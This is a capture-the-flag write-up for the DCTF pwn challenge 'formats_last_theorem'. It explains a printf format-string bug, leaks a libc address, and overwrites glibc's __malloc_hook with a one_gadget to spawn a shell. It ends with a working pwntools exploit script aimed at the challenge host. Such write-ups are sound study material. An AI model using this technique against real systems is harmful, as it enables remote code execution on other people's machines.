

## Challenge Description
---
> I dare you to hook the malloc
>
> nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482
>
> [formats_last_theorem](attachments/formats_last_theorem) [Dockerfile](attachments/Dockerfile)

<br>

### Overview
---

We are provided with the binary and a docker file. We first check the security features of the binary.

<pre>
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] &apos;/media/sf_dabian/Challenges/dctf/pwn/lft/formats_last_theorem&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#00cd00;">Full RELRO</span>
    Stack:    <span style="color:#cd0000;">No canary found</span>
    NX:       <span style="color:#00cd00;">NX enabled</span>
    PIE:      <span style="color:#00cd00;">PIE enabled</span>
</pre>

Connecting to the service, we get prompted for an input, which seems to continuously loop and prompt for more input.

```
➜ nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482

I won't ask you, what your name is. It's getting kinda old at this point
hi
you entered
hi

I won't ask you, what your name is. It's getting kinda old at this point
%p
you entered
0x7f56c7da77e3
```

Seeing that the program echoes our input back to us, we try a format string and voila! We evidently have a format string exploit.

Decompiling in IDA, we get the following psuedo source code.

```c
void __noreturn vuln()
{
  char format[104]; // [rsp+0h] [rbp-70h] BYREF
  unsigned __int64 v1; // [rsp+68h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  while ( 1 )
  {
    puts("I won't ask you, what your name is. It's getting kinda old at this point");
    __isoc99_scanf("%100s", format);
    puts("you entered");
    printf(format);
    puts(&byte_8B3);
    puts(&byte_8B3);
  }
}

int main()
{
  alarm(0xAu);
  vuln();
}

```

We also look at our DockerFile,

```
FROM ubuntu:18.04
RUN apt-get update && apt-get install -y make gcc socat

RUN groupadd pilot
RUN useradd pilot --gid pilot

COPY ./app /app
WORKDIR /app

ENTRYPOINT [ "bash", "/app/startService.sh" ]
```

<br>

### Exploitation Ideas
---

We have a format string exploit with unlimited inputs, that should make it easy. However, **FULL RELRO** is enabled, that means it is going to be impossible to overwrite anything in the `Global Offset Table`. Hmm that makes things difficult, the challenge description hints to `malloc`.

Interesting! Let's look at `printf` source code,

```c
if (width >= WORK_BUFFER_SIZE - 32)
  {
    size_t needed = ((size_t) width + 32) * sizeof (CHAR_T);
    ...
    workstart = (CHAR_T *) malloc (needed);
    ...
  }

```

By searching malloc in `vfprintf.c`, it seems that we can trigger `malloc` and the following `free` if the width field of the format placeholder is large enough.

Since `__malloc_hook` and `__free_hook` are functions in the libc, and not in the `GOT`, we can overwrite them easily despite `FULL RELRO` by providing large format placeholder.

Hence, if you think about it, we are easily able to overwrite `__malloc_hook` or `__free_hook` with a `one_gadget` and hence get a shell.

```
printf -> __malloc_hook -> pop shell
```

However, since `PIE` is enabled, we have to leak our `libc.address` off the stack. And for us to get a correct offset for a `libc function` in the stack, we have to be running our binary on the same `libc` and `ld` as them.

Here is where our DockerFile comes in.

`FROM ubuntu:18.04`

Every version of `Ubuntu` has its own `libc` and `ld`. Since we have the ubuntu version, we can just obtain our `libc` and `ld` as well.

Let's modify the DockerFile to make our life easy.

```
FROM ubuntu:18.04
CMD [ "sha1sum", "/lib/x86_64-linux-gnu/libc.so.6" ]
```

and run it. We can use [libc-database](https://github.com/niklasb/libc-database) identify for this.



Let's start exploiting!

<br>

### Exploitation
---

First we load our `libc` and `ld` to our binary with `patchelf`.

```
patchelf --replace-needed libc.so.6 /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc-2.27.so ./formats_last_theorem

patchelf --set-interpreter /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/ld-2.27.so ./formats_last_theorem
```

Using `GDB`, we can find that the 3rd format string offset points to `write+20`.

```
I won't ask you, what your name is. It's getting kinda old at this point
%3$p
you entered
0x7ffff7af2224

pwndbg> x 0x7ffff7af2224
0x7ffff7af2224 <write+20>:	0xf0003d48
```

We also need our `one_gadget`.

```
➜ one_gadget /root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc.so.6

0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
 rsp & 0xf == 0
 rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
 [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
 [rsp+0x70] == NULL
```

We will take `0x10a41c`.

Let's write our exploit script!

With `fmtstr_payload`, we are easily able to overwrite `__malloc_hook` with our one_gadget. However, it did not work initially at first and it took a little big of messing around of settings to get it to work with an extra argument `write_size='short'`.

After we overwrite `__malloc_hook` with our `one_gadget`, we send a large enough format string placeholder to trigger `malloc` and get our shell.

```py

context.binary = elf = ELF('formats_last_theorem')
#p = process('./formats_last_theorem')
p = remote('dctf-chall-formats-last-theorem.westeurope.azurecontainer.io', 7482)
libc = ELF('/root/libc-database/libs/libc6_2.27-3ubuntu1.4_amd64/libc-2.27.so')

p.sendlineafter('point\n', '%3$p')
p.recvuntil('you entered\n')
libcwrite = int(p.recvline().strip().decode(), 16)
libc.address = libcwrite - libc.sym.write - 20

log.warn(f"libc base @ {hex(libc.address)}")

payload = fmtstr_payload(6, {libc.sym.__malloc_hook: (0x10a41c + libc.address)}, write_size='short')
p.sendlineafter('point\n', payload)
p.sendlineafter('point\n', '%10000$c')
p.interactive()
#: dctf{N0t_all_7h30r3ms_s0und_g00d}
```
